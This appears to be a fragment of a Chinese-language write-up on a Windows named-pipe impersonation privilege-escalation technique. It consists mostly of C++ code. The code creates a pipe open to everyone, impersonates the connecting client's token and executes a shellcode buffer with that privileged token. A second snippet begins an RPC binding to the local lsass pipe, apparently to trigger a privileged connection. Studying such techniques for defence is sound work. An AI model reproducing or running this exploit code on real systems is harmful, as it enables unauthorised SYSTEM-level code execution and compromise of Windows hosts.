 创建命名管道部分实现代码：

```cpp
if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION))
	{
		wprintf(L"InitializeSecurityDescriptor() failed. Error: %d - ", GetLastError());
		LocalFree(pwszPipeName);
		return;
	}
	// 设置安全描述符
	if (!ConvertStringSecurityDescriptorToSecurityDescriptorW(L"D:(A;OICI;GA;;;WD)", 1, &((&sa)->lpSecurityDescriptor), NULL))
	{
		wprintf(L"ConvertStringSecurityDescriptorToSecurityDescriptor() failed. Error: %d\n", GetLastError());
		LocalFree(pwszPipeName);
		return;
	}
	// 创建管道
	hPipe = CreateNamedPipe(pwszPipeName, PIPE_ACCESS_DUPLEX | FILE_FLAG_OVERLAPPED, PIPE_TYPE_BYTE | PIPE_WAIT, 10, 2048, 2048, 0, &sa);
	if (hPipe == INVALID_HANDLE_VALUE) {
		return;
	}
	
	wprintf(L"[*] NamedPipe '%ls' listening...\n", pwszPipeName);
	// 一直等待客户端连接，方便持续调用
	for (;;) {
		if (ConnectNamedPipe(hPipe, NULL) > 0) {
			wprintf(L"[+] A client connected!\n");
			// 模拟客户端Token
			if (!ImpersonateNamedPipeClient(hPipe)) {
				// 如果无法模拟就断开连接
				DisconnectNamedPipe(hPipe);
				continue;
			}
			GetUserName(szUser, &dwSize);
			wprintf(L"[+] Impersonating dummy :) : %s\n\n\n\n", szUser);
			// 将特权Token赋值到全局变量中
			OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &g_hSystemToken);
			if (g_ShellcodeBuffer != NULL && g_dwShellcodeSize != 0) {
				// 如果Shellcode不为空，就开始创建线程执行
				ExecuteShellCodeWithToken(g_hSystemToken);
			}
			DisconnectNamedPipe(hPipe);
		}
	}
```

触发RPC连接实现代码：

```cpp
  RPC_STATUS status;
	RPC_WSTR pszStringBinding;
	RPC_BINDING_HANDLE BindingHandle;

	status = RpcStringBindingCompose(
		NULL,
		(RPC_WSTR)L"ncacn_np",
		(RPC_WSTR)L"\\\\127.0.0.1",
		(RPC_WSTR)L"\\pipe\\lsass",
		NULL,
		&pszStringBinding
	);
	
```